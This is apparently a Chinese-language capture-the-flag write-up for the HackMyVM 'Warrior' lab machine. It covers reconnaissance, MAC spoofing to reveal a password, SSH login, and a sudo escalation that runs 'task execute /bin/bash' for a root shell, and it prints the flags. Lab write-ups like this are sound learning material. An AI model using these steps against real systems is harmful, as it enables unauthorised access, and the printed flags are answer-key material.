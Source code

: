 # Warrior

2025.01.02 https://hackmyvm.eu/machines/machine.php?vm=Warrior

## Ip

192.168.5.21

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 服务，http://192.168.5.21/robots.txt 发现几个文件：

```
Disallow:/admin
Disallow:/secret.txt
Disallow:/uploads/id_rsa
Disallow:/internal.php
Disallow:/internal
Disallow:/cms
Disallow:/user.txt
```

访问 http://192.168.5.21/internal.php 出现提示： Hey bro, you need to have an internal MAC as 00:00:00:00:00:a? to read your pass..

发现一个用户名 bro 并且提示要把 MAC 地址改成　 00:00:00:00:00:a?　格式，尝试修改 kali 的 mac 地址没最终发现 00:00:00:00:00:af 可以进行访问，得到了一个字符串 Zurviv0r1

尝试用户凭据 bro:Zurviv0r1 登陆 ssh，登陆成功，先得到了 user flag：

```
bro@warrior:~$ cat user.txt
LcHHbXGHMVhCpQHvqDen
```

经过枚举，发现 /usr/sbin/sudo -l ：

```
(root) NOPASSWD: /usr/bin/task
```

直接提权：

```
/usr/sbin/sudo task execute /bin/bash

root@warrior:~# cat root.txt
HPiGHMVcDNLlXbHLydMv
```

